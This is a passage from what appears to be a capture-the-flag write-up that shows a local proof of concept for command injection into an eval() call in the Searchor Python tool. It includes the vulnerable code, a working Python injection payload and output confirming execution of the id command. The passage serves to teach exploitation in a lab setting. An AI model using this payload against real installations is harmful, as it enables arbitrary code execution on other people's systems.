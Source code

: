 
#### Local POC

I’m trying to inject into this code, where I control `engine` and `query`:

    
    
    url = eval(
        f"Engine.{engine}.search('{query}', copy_url={copy}, open_web={open})"
    )
    

If I target `engine`, it’s likely to error out, and I won’t get a result back,
so I’ll focus on `query`. If I give it a single quote, it crashes:

    
    
    (venv) oxdf@hacky$ searchor search GitHub 0xdf
    https://www.github.com/search?q=0xdf
    (venv) oxdf@hacky$ searchor search GitHub "0xdf'"
    Traceback (most recent call last):
      File "/tmp/venv/bin/searchor", line 8, in <module>
        sys.exit(cli())
                 ^^^^^
    ...[snip]...
      File "/tmp/venv/lib/python3.11/site-packages/searchor/main.py", line 32, in search
        url = eval(
              ^^^^^
      File "<string>", line 1
        Engine.GitHub.search('0xdf'', copy_url=False, open_web=False)
                                   ^
    SyntaxError: unterminated string literal (detected at line 1)
    

I need to make that syntax correct. A bit of trial and error gets me to
something like:

    
    
    ' + __import__('os').popen('id').read() + '
    

If I submit that as the `search`, that the code will look like:

    
    
    f"Engine.GitHub.search('' + __import__('os').popen('id').read() + '', copy_url={copy}, open_web={open})"
    

It works:

    
    
    (venv) oxdf@hacky$ searchor search GitHub "' + __import__('os').popen('id').read() + '"
    https://www.github.com/search?q=uid%3D1000%28oxdf%29%20gid%3D1000%28oxdf%29%20groups%3D1000%28oxdf%29%2C115%28netdev%29%2C123%28nopasswdlogin%29%2C999%28vboxsf%29%0A
    

The result is URL-encoded, but decoding that gives, which is the output of the
`id` command:

    
    